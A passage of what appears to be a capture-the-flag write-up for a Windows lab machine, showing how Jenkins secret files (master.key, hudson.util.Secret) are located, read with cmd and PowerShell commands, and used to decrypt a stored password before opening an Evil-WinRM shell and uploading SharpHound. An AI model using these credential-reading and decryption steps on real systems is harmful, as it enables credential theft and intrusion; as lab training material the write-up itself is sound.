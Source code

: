 
```hash
<passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
```


### Cracking Hash
[Jenkins-Credentials-Decryptor](https://github.com/hoto/jenkins-credentials-decryptor)tells me that **credentials.xml**(or config.xml), **master.key** and **hudson.util.Secret** is required for the decryption:

![](https://i.imgur.com/WEtMSio.png)


From some enumeration, I discovered paths to required files:


```paths
c:\users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret
c:\users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key
c:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml
```

Using the command below, I can retrieve **master.key** and **hudson.util.secret**:

```powershell
cmd.exe /c "type c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\master.key"
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path
'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding
byte));Write-Output $c"
```


Using the python script above, I will decrypt the password hash:

```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret credentials.xml
```

It decrypts and provides me the password for **oliver**: **c1cdfun_d2434**


### Evil-Winrm

Using the found credentials and Evil-Winrm, now I have a shell connection as **oliver**:

![](https://i.imgur.com/kN6d6BN.png)


## Privesc: oliver to smith

Oliver is the member of the **Domain Users** which is very interesting:

`net user oliver`

![](https://i.imgur.com/9lgRdz5.png)


I will upload **SharpHound.exe** through `upload SharpHound.exe` command and run it to enumerate the environment. After running SharpHound.exe, zip file is created to be downloaded:
